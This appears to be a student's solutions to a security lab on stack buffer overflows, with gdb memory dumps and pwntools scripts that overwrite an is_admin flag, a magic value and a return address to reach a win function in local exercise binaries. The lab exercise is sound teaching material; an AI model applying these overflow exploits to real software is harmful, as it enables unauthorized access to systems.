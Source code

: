 # Laborator 2

## Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

## Solution to [Q3]:
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Solution to [Q4]:
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

```
[+] Starting local process './bin/ex2': pid 962
b'AAAAAAAA\xef\xbe\xad\xde'
[*] Switching to interactive mode
```

```
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
Access granted!
```

## Solution to [Q5]:
```python
from pwn import *
import os

context.binary = './bin/ex3'
pattern = cyclic(100)
p = process('./bin/ex3')
p.sendline(pattern)
p.wait()
core_path = f"/tmp/core.{os.path.basename(context.binary.path)}.{p.pid}.11"
core = Core(core_path)
crash_addr = core.fault_addr

offset = cyclic_find(crash_addr)
print("Offset: ", offset)
```
```
Offset:  56
```

```
$ gdb ./bin/ex3
pwndbg> p win
$1 = {int ()} 0x401156 <win>
```

```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```
